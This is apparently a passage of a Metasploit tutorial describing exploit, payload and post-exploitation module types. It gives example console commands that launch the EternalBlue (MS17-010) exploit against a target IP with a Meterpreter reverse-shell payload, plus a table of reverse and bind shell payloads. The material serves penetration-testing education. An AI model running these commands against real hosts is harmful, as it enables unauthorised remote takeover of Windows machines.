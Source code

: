 #### **Example - Exploit MS17-010 (EternalBlue)**

use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target-ip>
set PAYLOAD windows/meterpreter/reverse_tcp
run

```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target-ip>
set PAYLOAD windows/meterpreter/reverse_tcp
run
```

---

### **6. Payload Modules (`payload/`)**

Defines what happens after an exploit is successful.

#### **Structure:**

payload/<os>/<type>/<specific_payload>

```
payload/<os>/<type>/<specific_payload>
```

|**Type**|**Example Payload**|**Purpose**|
|---|---|---|
|**shell/**|`payload/windows/shell/reverse_tcp`|Simple command shell|
|**meterpreter/**|`payload/linux/x86/meterpreter/reverse_tcp`|Interactive Meterpreter|
|**stager/**|`payload/windows/x64/stager/bind_tcp`|Loads payloads in steps|

#### **Example - Set Payload**

use exploit/windows/smb/ms17_010_eternalblue
set PAYLOAD windows/meterpreter/reverse_tcp
run

```
use exploit/windows/smb/ms17_010_eternalblue
set PAYLOAD windows/meterpreter/reverse_tcp
run
```

---

### **7. Post-Exploitation Modules (`post/`)**

Used **after** exploitation to gather information, maintain access, or escalate privileges.

#### **Structure:**

post/<os>/<category>/<specific_module>
